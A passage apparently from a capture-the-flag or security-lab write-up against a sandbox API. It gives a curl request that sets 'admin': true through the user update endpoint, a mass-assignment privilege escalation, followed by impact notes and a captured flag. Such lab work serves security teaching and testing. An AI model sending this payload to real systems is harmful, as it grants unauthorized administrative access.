 1. **Escalate privileges through self-service workflow:**
    
    ```bash
    curl -X PUT "<http://capital-api.sandbox.local:8000/api/user>" \\
      -H "Authorization: Token [JWT_TOKEN]" \\
      -H "Content-Type: application/json" \\
      -d '{
        "user": {
          "admin": true
        }
      }'
    
    ```
    

**Proof of Impact:**

- Successfully escalated privileges through self-service workflow
- Same impact as AUTHZ-VULN-05 but represents workflow design flaw
- Captured CTF flag: `flag{M4sS_AsS1gnm3nt}`